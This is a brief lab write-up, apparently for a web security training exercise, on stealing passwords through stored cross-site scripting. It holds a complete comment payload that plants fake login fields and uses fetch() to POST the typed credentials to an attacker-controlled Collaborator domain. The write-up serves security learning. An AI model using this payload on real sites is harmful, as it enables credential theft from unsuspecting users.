

### Exploiting cross-site scripting to capture passwords : PRACTITIONER

---

Similar to [[Lab 26]], the idea is to send password data to an attacker controlled domain created using Burp Suite Collaborator.

The collaborator domain created:
```
o0p0sx9rpq5u1k9g2yqzt5fwun0eoacz.oastify.com
```

Writing this payload in the comment section of a post:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://o0p0sx9rpq5u1k9g2yqzt5fwun0eoacz.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Refreshing the Collaborator page, we see the credentials sent in a POST request.



Using those to login completes the lab.

---
